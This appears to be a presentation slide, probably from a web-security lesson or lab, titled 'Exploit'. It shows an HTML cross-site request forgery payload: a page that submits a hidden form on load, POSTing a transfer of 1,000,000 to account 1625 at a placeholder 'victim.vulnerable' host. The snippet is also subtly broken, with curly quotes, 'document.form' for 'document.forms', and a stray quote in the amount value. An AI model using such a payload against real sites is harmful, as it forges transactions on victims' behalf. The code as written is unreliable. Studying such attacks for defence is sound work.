

# Exploit
<body onload=“document.form[0].submit()” method=“POST”>
<form action=“ https://victim.vulnerable/levels/0/ “ method=“POST”>
<input type=“hidden” name=“amount” value= “”1,000,000”>
<input type=“hidden” name=“to” value=“1625”>
</form></body>